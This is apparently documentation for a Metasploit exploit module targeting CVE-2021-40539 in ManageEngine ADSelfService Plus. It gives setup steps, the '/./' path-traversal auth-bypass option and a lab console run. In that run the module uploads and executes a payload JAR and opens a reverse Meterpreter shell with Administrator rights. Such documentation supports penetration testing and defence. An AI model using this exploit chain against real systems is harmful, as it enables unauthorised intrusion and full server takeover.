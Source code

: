 ## Vulnerable Application

### Setup

Follow the [Getting Started] guide. You do not need AD, and you can skip licensing.

1. Download [ManageEngine_ADSelfService_Plus_64bit.exe]
1. Run the installer
1. Start the server
1. Hax

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6113/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI

Path traversal for auth bypass. `/./` is the default.

## Scenarios

### ADSelfService Plus 6113 on Windows Server 2016

```
msf > use exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > options

Module options (exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8888             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /./              yes       Path traversal for auth bypass
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  [redacted]       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Dropper


msf exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set rhosts 172.16.57.167
rhosts => 172.16.57.167
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully bypassed REST API authentication.
[*] Uploading payload JAR: RlBtKpwLfU.jar
[+] Successfully uploaded payload JAR
[*] Executing payload JAR
[*] Sending stage (58082 bytes) to 172.16.57.167
[+] Successfully executed payload JAR
[+] Deleted RlBtKpwLfU.jar
[*] Meterpreter session 1 opened (172.16.57.1:4444 -> 172.16.57.167:64699 ) at 2021-11-24 10:41:43 -0600

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN-PRMQDT3BCJI
OS          : Windows Server 2016 10.0 (amd64)
Meterpreter : java/windows
meterpreter >
```
